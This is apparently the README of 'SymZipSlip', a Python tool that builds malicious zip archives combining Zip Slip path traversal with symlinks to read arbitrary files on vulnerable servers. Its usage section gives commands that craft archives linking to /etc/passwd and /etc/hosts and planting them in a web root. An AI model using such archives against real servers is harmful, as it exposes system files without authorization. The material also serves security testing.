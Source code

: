 # SymZipSlip
## Introduction
SymZip allows to combine two vulnerabilities a Zip Slip and Zip Symlink in order to have an Aritrary file read on a vulnerable server.
## Installation
- `git clone https://github.com/spawnzii/SymZipSlip.git`
- `cd SymZipSlip ; pip install -r requirements.txt`
## Usage
- You can simply run `python3 symzip.py` to create an evil zip that makes a symbolic link between /etc/passwd and etc. (No Zip Slip here, the file will be extracted on the current directory.)
- You can exploit Zip Slip with symlink by running the following command `python3 symzip.py -s /etc/hosts -n ../../../../../../var/www/html/poc -o spz.zip`.
